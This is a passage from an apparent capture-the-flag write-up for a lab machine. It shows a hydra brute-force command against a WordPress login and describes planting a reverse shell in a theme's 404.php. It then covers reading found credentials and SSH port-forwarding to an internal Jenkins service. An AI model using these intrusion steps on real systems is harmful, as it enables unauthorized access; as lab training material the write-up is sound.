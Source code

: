 Let's brute force the login page using `hydra`

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt internal.thm http-post-form "/blog/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username" -t 30
```

![](3.png)

We got the password, let's log in

## **Foothold**

To get a shell, we go to Theme editor, select 404.php and replace the php code with a reverse shell.

![](4.png)

We setup a listener and request the file.

```bash
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```

![](5.png)

We got the shell!

## **Privilege Escalation**

On the /opt directory we find a text file that contains credentials.

```text
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:<REDACTED>
```

Let's switch to user `aubreanna`.

On aubreanna's home directory we find an interesting txt file

```text
Internal Jenkins service is running on 172.17.0.2:8080
```

This tells us there is a web page on 172.17.0.2:8080 running Jenkins.

Let's forward that port using ssh.

```bash
ssh -L 8080:172.17.0.2:8080 aubreanna@internal.thm 
```

Now we navigate to `127.0.0.1:8080`
